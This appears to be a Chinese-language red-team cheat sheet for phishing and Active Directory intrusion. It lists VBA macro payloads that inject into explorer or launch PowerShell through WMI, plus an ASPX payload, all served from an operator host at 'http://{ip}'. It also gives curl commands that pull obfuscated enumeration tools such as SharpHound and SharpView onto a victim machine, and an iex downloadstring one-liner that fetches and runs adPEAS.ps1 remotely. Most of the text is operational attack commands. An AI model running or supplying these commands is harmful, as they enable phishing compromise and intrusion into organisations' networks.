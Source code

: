 
____

---
## 钓鱼

__vba__

直接注入explorer

http://{ip}/out/other/inject.vba

wmi调用powershell 脚本默认为注入explorer的ps1

http://{ip}/out/other/wmi.vba 


__aspx__

http://{ip}/out/other/index.aspx




---
## 其他工具

> 域枚举

__ADCollector__

```
curl http://{ip}/obf/ADCollector.exe -o C:\Users\Public\ADCollector.exe
```

__ADSearch__

```
curl http://{ip}/obf/ADSearch.exe -o C:\Users\Public\ADSearch.exe
```

__SharpHound__

```
curl http://{ip}/obf/SharpHound.exe -o C:\Users\Public\SharpHound.exe
```

__SharpView__

```
curl http://{ip}/obf/SharpView.exe -o C:\Users\Public\SharpView.exe
```

__adPEAS.ps1__

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/adPEAS.ps1')) 

Invoke-adPEAS

Invoke-adPEAS -Domain EXAMPLE.com
```
